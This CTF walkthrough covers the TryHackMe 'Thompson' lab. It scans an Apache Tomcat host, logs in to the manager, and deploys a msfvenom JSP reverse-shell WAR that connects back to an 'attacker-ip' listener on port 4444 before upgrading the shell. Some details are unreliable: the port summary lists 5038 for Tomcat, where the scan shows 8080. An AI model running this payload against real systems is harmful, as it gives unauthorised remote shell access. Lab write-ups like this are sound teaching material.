









[*← Back to index*](../../README.md)

# Thompson

This Write-up/Walkthrough provides my process for the **Thompson** *(THM)* CTF. Here you will find the solution for the machine. I encourage you to use this as a reference, not a direct solution.

---

## Scan

As always, I'll start with the scan

```bash
nmap -p- --open --min-rate 5000 -sS -Pn -n -vvv 10.113.131.119 -oG openPorts.log

###

cat openPorts.log
  Host: 10.113.131.119 ()	Status: Up
  Host: 10.113.131.119 ()	Ports: 22/open/tcp//ssh///, 8009/open/tcp//ajp13///, 8080/open/tcp//http-proxy///

###

nmap -p22,8009,8080 -sV -sC 10.113.131.119

  PORT     STATE SERVICE VERSION
  22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
  |   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
  |_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
  8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
  |_ajp-methods: Failed to get a valid response for the OPTION request
  8080/tcp open  http    Apache Tomcat 8.5.5
  |_http-title: Apache Tomcat/8.5.5
  |_http-favicon: Apache Tomcat
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I found 3 ports opened:

  * **22**: SSH
  * **8009**: AJP → Apache Jserv
  * **5038**: HTTP → Apache Tomcat 8.5.5

---

## Pasive recognition

Let's go to the website running on port 8080:



I decided to ran `gobuster` to look for unusual directories

```bash
gobuster dir -u http://10.113.131.119:8080 -w /usr/share/wordlists/dirb/common.txt -t 100 -q > directories.log
```



After searching for a while, I found the following:

> AJP is a highly trusted protocol and should never be exposed to untrusted clients, which could use it to gain access to sensitive information or execute code on the application server.
> 
> https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.md

We'll leave it at that for now and come back to it later...




All we have to do is skip this prompt by clicking "OK" or pressing Enter.



We found the credentials and logged in:



At this point, we should take a brief look at history:

### ¿Qué es el servicio AJP?

https://stackoverflow.com/questions/21757694/what-is-ajp-protocol-used-for

### How should AJP be exploited with Tomcat?

https://www.geeksforgeeks.org/devops/how-to-start-tomcat-server/

So we know that to deploy something, we need to use a WAR file

---

## Active recognition

Moving on the exploitation part, I've discovered that `msfvenom` has a script for this:

https://hackviser.com/tactics/pentesting/services/tomcat

We run:

```bash
msfvenom -l payloads | grep -i "jsp"  
  java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
  java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell
```

Then:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=attacker-ip LPORT=4444 -f war > shell.war
  Payload size: 1091 bytes
  Final size of war file: 1091 bytes
```



Befire uploading the file, we first need to listen a port:

```bash
nc -nlvp 4444
```

Once it has been deployed, navigate to the corresponding path (in my case `http://machine-ip:8080/shell`)



To make my work confortable, I did the following:

```bash
export TERM=xterm
```

At least we could make `clear`.

Then:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



There is a image in this repository with some common uses for **AJP**

[*← Back to index*](../../README.md)